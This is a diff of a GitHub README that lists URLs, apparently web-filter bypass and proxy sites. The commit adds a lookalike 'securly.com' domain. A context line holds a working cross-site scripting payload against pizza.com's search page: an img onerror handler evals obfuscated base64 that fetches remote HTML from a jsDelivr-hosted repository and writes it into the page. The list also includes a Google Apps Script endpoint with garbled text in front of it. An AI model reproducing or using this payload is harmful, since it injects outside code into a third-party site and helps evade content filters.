

Before and after one commit to shatwyatt-boop/Gay, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -2,6 +2,14 @@ https://drpepper.kwgranitecountertops.com/
 https://passwords.jsscmail.cc/
 https://inbox.jsscmail.cc/
 https://math.jsscmail.cc/
+
+https://www.securly.com.nogridco.com/
+
+
+
+
+
+
 
 https://pizza.com/?s=<img%20src%20onerror=e%3Deval,e(atob('ZmV0Y2goJ2h0dHBzOi8vY2RuLmpzZGVsaXZyLm5ldC9naC9nYWxheHlraW5nMTYvbGVhcm5AbWFpbi9kYXRhLmh0bWwnKS50aGVuKHI9PnIudGV4dCgpKS50aGVuKHQ9PmRvY3VtZW50LndyaXRlKHQpKQ'))>
 hiwytrrhyhihttps://script.google.com/macros/s/AKfycbw-9Y0SkbAhSVLBK8u5bVqhwYXqU1enIElKPM6AZyVig_q__c4hKzQX8TmfbUpvLwv2/exec
```
